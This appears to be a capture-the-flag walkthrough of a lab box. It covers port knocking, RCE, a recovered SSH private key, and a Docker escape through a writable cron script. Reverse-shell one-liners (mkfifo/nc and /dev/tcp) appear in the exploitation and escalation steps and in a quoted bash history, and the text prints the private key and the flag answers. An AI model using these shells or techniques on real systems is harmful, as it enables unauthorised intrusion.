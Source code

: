 ﻿# PORT SCAN
---


| PORT | SERVICE     |
| :--- | :---------- |
| 21   | FTP         |
| 22   | SSH         |
| 4420 | NVM-EXPRESS |
| 8080 | HTTP        |




# RECONNAISSANCE
---

If we try interacting with the `4420` port, we need a password, for it, we can go to `ftp` and check this, on there, we will get:

```
sardinethecat
```

![Pasted image 20250612135655.png](../../IMAGES/Pasted%20image%2020250612135655.png)
But, before all of this, we need to go to the website in which we will find this:

![Pasted image 20250612142859.png](../../IMAGES/Pasted%20image%2020250612142859.png)

The FTP port will appear as filter if we don't do `port knocking`, Port knocking is a security technique that involves a client making a series of connection attempts to specific closed ports on a server before a legitimate connection can be established, we need to do port knocking on the specified ports:

```
knock IP 1111, 2222, 3333, 4444
```

Once we knock, the ftp port will be open and we can access to get the password.

Let's begin exploitation.

# EXPLOITATION
---

We got `rce`, let's send ourselves a reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f
```


![Pasted image 20250612135810.png](../../IMAGES/Pasted%20image%2020250612135810.png)



We have a `runme` binary on `/home/catlover`:

```
# ls -la /home
total 12
drwxr-xr-x  3    0    0 4096 Apr  2  2021 .
drwxr-xr-x 10 1001 1001 4096 Apr  3  2021 ..
drwxr-xr-x  2    0    0 4096 Apr  3  2021 catlover
# ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
# ./home/catlover/runme
Please enter yout password: sardinethecat
Access Denied
```

It prompts for a password, which we don't have, we cannot get the binary on our home due to the shell being a little rusty, but, when we use cat we can see this little line: 


```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```

The password is:

```
rebecca
```

This binary generates a `id_rsa` for `catlover`  once the password is correct, we know this by analyzing the binary using `cat`:

```
cat /home/catlover/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
IWnCNvY8gOZdOSWgDODCj8mOssL7SIIgkOuD1OzM0cMBSCCwYlaN9F8zmz6UJX+k
jSmQqh7eqtXuAvOkadRoFlyog2kZ1Gb72zebR75UCBzCKv1zODRx2zLgFyGu0k2u
xCa4zmBdm80X0gKbk5MTgM4/l8U3DFZgSg45v+2uM3aoqbhSNu/nXRNFyR/Wb10H
tzeTEJeqIrjbAwcOZzPhISo6fuUVNH0pLQOf/9B1ojI3/jhJ+zE6MB0m77iE07cr
lT5PuxlcjbItlEF9tjqudycnFRlGAKG6uU8/8wIDAQABAoIBAH1NyDo5p6tEUN8o
aErdRTKkNTWknHf8m27h+pW6TcKOXeu15o3ad8t7cHEUR0h0bkWFrGo8zbhpzcte
D2/Z85xGsWouufPL3fW4ULuEIziGK1utv7SvioMh/hXmyKymActny+NqUoQ2JSBB
QuhqgWJppE5RiO+U5ToqYccBv+1e2bO9P+agWe+3hpjWtiAUHEdorlJK9D+zpw8s
/+9CjpDzjXA45X2ikZ1AhWNLhPBnH3CpIgug8WIxY9fMbmU8BInA8M4LUvQq5A63
zvWWtuh5bTkj622QQc0Eq1bJ0bfUkQRD33sqRVUUBE9r+YvKxHAOrhkZHsvwWhK/
oylx3WECgYEAyFR+lUqnQs9BwrpS/A0SjbTToOPiCICzdjW9XPOxKy/+8Pvn7gLv
00j5NVv6c0zmHJRCG+wELOVSfRYv7z88V+mJ302Bhf6uuPd9Xu96d8Kr3+iMGoqp
tK7/3m4FjoiNCpZbQw9VHcZvkq1ET6qdzU+1I894YLVu258KeCVUqIMCgYEAwvHy
QTo6VdMOdoINzdcCCcrFCDcswYXxQ5SpI4qMpHniizoa3oQRHO5miPlAKNytw5PQ
zSKoIW47AObP2twzVAH7d+PWRzqAGZXW8gsF6Ls48LxSJGzz8V191PjbcGQO7Oro
Em8pQ+qCISxv3A8fKvG5E9xOspD0/3lsM/zGD9ECgYBOTgDAuFKS4dKRnCUt0qpK
68DBJfJHYo9DiJQBTlwVRoh/h+fLeChoTSDkQ5StFwTnbOg+Y83qAqVwsYiBGxWq
Q2YZ/ADB8KA5OrwtrKwRPe3S8uI4ybS2JKVtO1I+uY9v8P+xQcACiHs6OTH3dfiC
tUJXwhQKsUCo5gzAk874owKBgC/xvTjZjztIWwg+WBLFzFSIMAkjOLinrnyGdUqu
aoSRDWxcb/tF08efwkvxsRvbmki9c97fpSYDrDM+kOQsv9rrWeNUf4CpHJQuS9zf
ZSal1Q0v46vdt+kmqynTwnRTx2/xHf5apHV1mWd7PE+M0IeJR5Fg32H/UKH8ROZM
RpHhAoGAehljGmhge+i0EPtcok8zJe+qpcV2SkLRi7kJZ2LaR97QAmCCsH5SndzR
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
```

We got our private key and can now connect to ssh:

![Pasted image 20250612141930.png](../../IMAGES/Pasted%20image%2020250612141930.png)
# PRIVILEGE ESCALATION
---

We are root but the root flag is nowhere to be found, this is because we are inside of a `Docker container`, we can know this with linpeas and `ls -la /`:

```
root@7546fa2336d6:/opt/clean# ls -la /
total 112
drwxr-xr-x   1 root root 4096 Jun 12 19:22 .
drwxr-xr-x   1 root root 4096 Jun 12 19:22 ..
-rw-------   1 root root  596 Jun 12 19:18 .bash_history
-rwxr-xr-x   1 root root    0 Mar 25  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  9  2021 bin
drwxr-xr-x   3 root root 4096 Mar 24  2021 bitnami
drwxr-xr-x   2 root root 4096 Jan 30  2021 boot
-rw-r--r--   1 root root   62 Jun 12 19:22 clean.sh
drwxr-xr-x   5 root root  340 Jun 12 19:09 dev
drwxr-xr-x   1 root root 4096 Apr  9  2021 etc
drwxr-xr-x   2 root root 4096 Jan 30  2021 home
drwxr-xr-x   1 root root 4096 Sep 25  2017 lib
drwxr-xr-x   2 root root 4096 Feb 18  2021 lib64
drwxr-xr-x   2 root root 4096 Feb 18  2021 media
drwxr-xr-x   2 root root 4096 Feb 18  2021 mnt
drwxrwxr-x   1 root root 4096 Mar 25  2021 opt
drwxrwxr-x   2 root root 4096 Mar 24  2021 post-init.d
-rwxrwxr-x   1 root root  796 Mar 24  2021 post-init.sh
dr-xr-xr-x 131 root root    0 Jun 12 19:09 proc
drwx------   1 root root 4096 Mar 25  2021 root
drwxr-xr-x   4 root root 4096 Feb 18  2021 run
drwxr-xr-x   1 root root 4096 Apr  9  2021 sbin
drwxr-xr-x   2 root root 4096 Feb 18  2021 srv
dr-xr-xr-x  13 root root    0 Jun 12 19:23 sys
drwxrwxrwt   1 root root 4096 Jun 12 19:27 tmp
drwxrwxr-x   1 root root 4096 Mar 24  2021 usr
drwxr-xr-x   1 root root 4096 Feb 18  2021 var
```

As seen, `.dockerenv` is on here, we need a way to get into root
If we check the `/opt` directory we can find a `clean.sh` script that does this:

```
root@7546fa2336d6:/# cat /opt/clean/clean.sh
#!/bin/bash

rm -rf /tmp/*
```

We have write permissions so we can simply modify it to a reverse shell:

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/IP/1111 0>&1'" >> /opt/clean/clean.sh
```

This script runs each a couple minutes so wait and have the listener ready, we know this by taking a look at the `.bash_history` file:

```
root@7546fa2336d6:/opt/clean# cat /.bash_history
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh
nano /opt/clean/clean.sh
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh
cat /opt/clean/clean.sh
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
cat /var/log/dpkg.log
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
exit
exit
exit
ls
exit
```


Once the script runs again, we get a shell as root but in the real machine:

![Pasted image 20250612143517.png](../../IMAGES/Pasted%20image%2020250612143517.png)

We can now get both flags:

```
root@7546fa2336d6:/opt/clean# cat /root/flag.txt
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9

root@cat-pictures:~# cat /root/root.txt
Congrats!!!
Here is your flag:

4a98e43d78bab283938a06f38d2ca3a3c53f0476
```

![Pasted image 20250612143705.png](../../IMAGES/Pasted%20image%2020250612143705.png)

